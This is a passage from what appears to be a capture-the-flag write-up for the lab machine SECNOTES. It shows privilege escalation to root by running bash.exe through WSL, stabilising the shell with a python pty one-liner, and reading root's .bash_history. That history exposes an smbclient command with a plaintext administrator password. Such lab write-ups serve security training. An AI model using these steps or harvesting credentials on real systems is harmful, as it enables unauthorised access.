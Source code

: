 So with this we know we can run bash 

I'll search for where the executable path is using `where` command

```
c:\Distros\Ubuntu>where /R C:\ "bash.exe"
where /R C:\ "bash.exe"
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

Now let run it

```
c:\Distros\Ubuntu>C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
id
uid=0(root) gid=0(root) groups=0(root)
```

We can now stabilize the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
root@SECNOTES:~# export TERM=xterm
export TERM=xterm
root@SECNOTES:~# cd /root
cd /root
root@SECNOTES:~# ls -al
ls -al
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
root@SECNOTES:~#
```

We have a `.bash_history` file lets check the content

```
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exitroot@SECNOTES:~# 
```